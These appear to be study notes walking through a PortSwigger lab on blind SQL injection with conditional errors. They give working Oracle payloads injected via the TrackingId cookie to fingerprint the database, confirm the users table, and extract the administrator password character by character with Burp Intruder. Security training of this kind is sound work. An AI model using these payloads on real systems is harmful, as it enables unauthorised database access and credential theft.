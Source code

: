
### Blind SQL injection with conditional errors : PRACTITIONER

---

We know that the `TrackingId` cookie is vulnerable to blind SQL injection using conditional errors.
- We need to first figure out the type of DBMS we are attacking.
- Then create a payload that can enumerate information by using conditional errors.

> All the payloads will be inserted in the `TrackingId` cookie after the value of the cookie.

##### DBMS Enumeration

We will try the conditional error payloads found in the SQL injection cheat sheet.

The first one is oracle:
```SQL
Z4Aj3mqRwaXvVcZg' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a --
```
- We see an error being printed.

Trying the other condition to check if it works normally by changing the condition to be false.
```SQL
Z4Aj3mqRwaXvVcZg' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a --
```
- We see that an error is not returned, and the page returns normally.

Therefore, the DBMS is Oracle.

##### Data Enumeration

We now want to check if there is a users table.
```SQL
Z4Aj3mqRwaXvVcZg' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM=1)='a --
```
- First, it tries to return a single row from the `users` table.
- If it works, then it executes the `CASE`.
- Since the `CASE` is always true, then it will induce an error.

> An error is returned, hence, we have confirmed the existence of the `users` table.

Now we check for the presence of the `administrator` user.
- For an easier expression, use string concatenation instead of equality checks.
```SQL
Z4Aj3mqRwaXvVcZg' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') || 'a --
```

> An error is returned, hence, the `administrator` user exists.

Now we need to enumerate the password of the admin user.
```SQL
Z4Aj3mqRwaXvVcZg' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > 20) || ' --
```
- Keep trying, or use the BURPSUITE INTRUDER spider tool to change the length until we don't get an error. Again, if we get an error, this means we are on the right path.

Our password has length of 20, now to enumerate all its characters, use the BURPSUITE INTRUDER clusterbomb tool to change both the index and character.
```SQL
Z4Aj3mqRwaXvVcZg' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1) = 'a') || ' --
```

- Let the indices be from 1 to 20.
- Let the characters be from a-z and 0-9

> As [[Portswigger/SQL Injection/Lab 7]], conduct the attack and watch for the different response sizes or status codes. See the size corresponding to errors and use those to obtain results. Use status code 500 representing errors to obtain results.

1 - 7
2 - s
3 - s
4 - j
5 - u
6 - 0
7 - m
8 - y
9 - z
10 - 3
11 - h
12 - g
13 - q
14 - x
15 - 1
16 - q
17 - 0
18 - i
19 - l
20 - l

> Assemble password and login to complete lab.
---
